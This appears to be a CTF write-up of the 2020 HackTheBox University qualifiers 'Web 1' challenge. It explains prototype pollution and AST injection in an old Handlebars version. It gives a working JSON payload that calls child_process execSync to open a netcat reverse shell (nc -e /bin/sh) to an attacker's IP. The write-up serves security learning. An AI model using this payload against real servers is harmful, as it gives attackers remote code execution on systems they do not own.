




# Web 1

> I forgot the name of the challenge, I will update it once challenges become accessible again.

**Web 1** the first web challenge of the 2020 HackTheBox University CTF Qualifications. The attacker need to use AST Injection to get remote code execution.



The website is a portfolio of a fictional music band. After exploring it, the only interesting thing found was an input field asking for the name of the user's favourite band member. When a correct name (`Haigh`, `Westaway` or `Gingell`) is given a message shows up thanking the user (`guest` in this case). This and the fact that the title of the website is **AST Injection** makes what should be searched obvious.

In the downloadable part of the challenge, a file called `routes.js` contains a hint (more like a spoil) to a [po6ix article](https://blog.p6.is/AST-Injection/) about **prototype pollution**.



To give each user a custom reply containing his name, the website uses AST to modify template such as `Hello {{ user }}`. Handlebars is a template engine used to do such template manipulation but older versions of it are vulnerable to **prototype pollution** (properly explained in [po6ix's article](https://blog.p6.is/AST-Injection/)).

Using **burpsuite**, the artist name search request can be intercepted and injected with the malicious code.
```js
{
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`nc <IP> <port> -e /bin/sh`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})
```



**s/o [ABH](https://www.abhw0rld.com/) for the public IP VM used to get the reverse shell ;)**